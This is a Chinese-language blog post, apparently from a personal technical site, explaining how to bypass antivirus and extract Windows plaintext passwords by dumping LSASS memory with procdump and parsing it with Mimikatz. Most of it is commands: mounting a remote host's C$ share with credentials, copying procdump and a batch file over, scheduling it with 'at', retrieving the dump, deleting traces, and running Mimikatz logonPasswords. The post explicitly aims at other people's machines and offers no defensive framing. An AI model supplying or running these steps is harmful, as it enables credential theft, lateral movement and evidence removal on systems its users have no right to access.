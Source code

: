 ```yaml
---
layout: post
category: curleyg-code-hack
title: 利用procdump+Mimikatz 绕过杀软获取Windows明文密码
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 利用procdump+Mimikatz 绕过杀软获取Windows明文密码
lock: need
---
```


# 利用procdump+Mimikatz 绕过杀软获取Windows明文密码

Mimikatz现在已经内置在Metasploit’s  meterpreter里面，我们可以通过meterpreter下载。但是你如果觉得还要考虑杀毒软件，绑定payload之类的东西太过复杂，我们可以有更好的办法，只需要在自己的电脑上运行Mimikatz alpha([地址](http://blog.gentilkiwi.com/mimikatz))版本,然后处理dump的LSASS进程内存文件就行！

那么如何dump LSASS进程内存呢。可以通过以下方式：

**1.对于NT6可以使用windows自带的功能进行dump:**

任务管理器—进程—显示所有用户进程—找到lsass—右键“创建转储文件”

![img](https://img-blog.csdnimg.cn/20181219222000264.png)

![img](https://img-blog.csdnimg.cn/20181219222020980.png)

**2.对于NT5可以使用微软的Procdump工具（这当然不会引起杀软报毒）**

Procdump: http://technet.microsoft.com/en-us/sysinternals/dd996900.aspx

命令如下：

```
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

![img](https://img-blog.csdnimg.cn/2018121922212881.png)

我们运行mimikatz的平台（platform）要与进行dump的系统(source dump)兼容，兼容性如下：

![img](https://img-blog.csdnimg.cn/201812192222067.png)

得到dump后的文件我们就能使用mimikatz获取密码了。我们dump自己的电脑当然没什么意思，下面介绍怎么dump别人的电脑。

首先我们需要能够访问别人的C$（通常只有管理员可以）

```
net use \\TARGETBOX\C$ /user:DOMAIN\Username password
dir \\TARGETBOX\C$
```

如果上述命令好使的话，我们接下来使用AT命令。

```
at \\TARGETBOX
```

接下来我们可以在目标主机上开展工作了。

```
mkdir \\TARGETBOX\C$\Temp
dir \\TARGETBOX\C$\Temp
copy c:\temp\procdump.exe \\TARGETBOX\C$\Temp
copy c:\temp\procdump.bat \\TARGETBOX\C$\Temp
```

procdump.bat中的内容如下

```
@echo off
C:\temp\procdump.exe -accepteula -ma lsass.exe %COMPUTERNAME%_lsass.dmp
```

这里一个技巧就是dump得到的文件名中有“计算机名”，这样可以让我们区分是来dump的文件自哪台电脑。

我们继续。 使用 net time 来获知远程主机上的时间。

```
net time \\TARGETBOX
at \\TARGETBOX 13:52 C:\Temp\procdump.bat
```

复制dump的文件，然后清理痕迹

```
dir \\TARGETBOX\C$\Temp
copy \\TARGETBOX\C$\Temp\*lsass.dmp C:\temp\output\
rmdir /s \\TARGETBOX\C$\Temp
```

之后我们就可以运行我们电脑上的Mimikatz，对得到的.dmp文件进行分析了（注意上文提到的兼容性）。命令如下：

```
mimikatz # sekurlsa::minidump SUPERCOMPUTER_lsass.dmp
Switch to MINIDUMP
mimikatz # sekurlsa::logonPasswords full
```

到此结束！我们得到了远程主机上的密码。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
